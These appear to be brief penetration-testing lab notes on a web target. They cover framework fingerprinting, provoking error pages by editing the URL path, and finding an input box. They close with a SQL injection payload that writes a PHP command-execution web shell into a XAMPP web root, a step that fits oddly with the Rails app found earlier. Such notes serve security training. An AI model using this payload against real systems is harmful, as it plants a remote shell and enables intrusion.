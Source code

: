 
Using Wappalyzer, we see Rub on Rails in Web frameworks.

![[Pasted image 20221108121650.png]]

Reviewing the url, we manipulate the path to spawn an error.

http://$TARGET/users/

http://$TARGET/x/

![[Pasted image 20221108121711.png]]

We now have a list of Paths for us to try.

Visting /slug, we get a text box.

[[1.2_MySQL#Using INTO OUTFILE to create a malicious PHP file:]] EXAMPLE 3


```
' UNION SELECT ("<?php echo passthru($_GET['cmd']);") INTO OUTFILE 'C:/xampp/htdocs/command.php'  -- -' 
```
